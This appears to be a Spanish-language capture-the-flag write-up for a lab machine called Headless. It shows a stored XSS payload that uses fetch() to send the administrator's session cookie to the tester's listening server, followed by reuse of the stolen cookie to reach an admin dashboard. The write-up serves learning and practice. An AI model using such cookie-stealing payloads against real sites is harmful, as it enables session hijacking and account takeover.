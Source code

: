 #XSS 

---

Entramos a la pagina web
![[Headless18.png]]
Apretamos el boton de *For questions*

Y nos envia a esta pagina que tiene un formulario de contacto
![[Headless17.png]]
Interceptamos la peticion con caido y vamos a cambiar el contenido del User-Agent y del parametro de *messege* para hacer un [[XSS para robar cookies]] y obtener la cookie de sesion de la persona que creemos que va a leer nuestro formulario

![[Headless10.png]]
Este va a ser el payload que vamos a inyectar `<img src=x onerror=fetch('http://10.10.16.15:80'+document.cookie);>`
Lo estamos colocando en User-Agent y y en parametro de messege que es el vulnerable. El primer [[XSS para robar cookies]] guarda el payload en el parametro message y despues con el payload de user agent ejecuta el *img* y el *fetch()* envia la cookie a mi server
Todo esto mientras estoy en escucha con [[python3 -m http.server]] con el comando `python3 -m http.server 80`

![[Headless9.png]]
Vemos que al enviar la peticion con payload malicioso [[XSS para robar cookies]]  recibimos la cookie del administrador que ve nuestro formulario

is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0

Ahora cambiamos la cookie de sesion en el [[Caido]] y vemos que ya podemos ingresar a la pagina http://10.10.11.8:5000/dashboard

Y listo ya estamos adentro de la maquina
![[Headless20.png]]
